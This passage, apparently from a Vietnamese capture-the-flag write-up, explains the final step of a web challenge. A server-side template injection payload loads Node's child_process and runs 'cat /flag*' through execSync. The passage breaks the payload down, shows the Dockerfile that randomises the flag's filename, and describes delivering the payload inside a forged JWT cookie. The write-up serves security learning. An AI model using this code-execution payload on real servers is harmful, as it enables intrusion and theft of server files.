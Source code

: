 cuối cùng mình sẽ đọc file flag bằng payload sau : 

```jinja2 
#{global.process.mainModule.constructor._load('child_process').execSync('cat /flag*')}
```

Giải thích payload : 
* global.process.mainModule.constructor._load('child_process') sẽ gọi 1 tiến trình con để chạy độc lập với main process 
* execSync để thực thi lệnh linux console
* cat /flag* để đọc file flag, sở dĩ thêm dấu * để đọc được tên file do file flag đã được đổi tên trong Dockerfile 

```dockerfile 
RUN flag_name=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 16) && \
    mv /app/app/flag.txt /flag_$flag_name.txt && \
    chmod 444 /flag_$flag_name.txt && \
    chown root:root /flag_$flag_name.txt
```

https://www.warp.dev/terminus/linux-wildcards#asterisk-and-question-mark-are-the-two-wildcard-characters

Cuối cùng ta thay payload vào nhận được JWT mới thay vào cookie của web để nhận được flag 

![image](./images/image46.png)
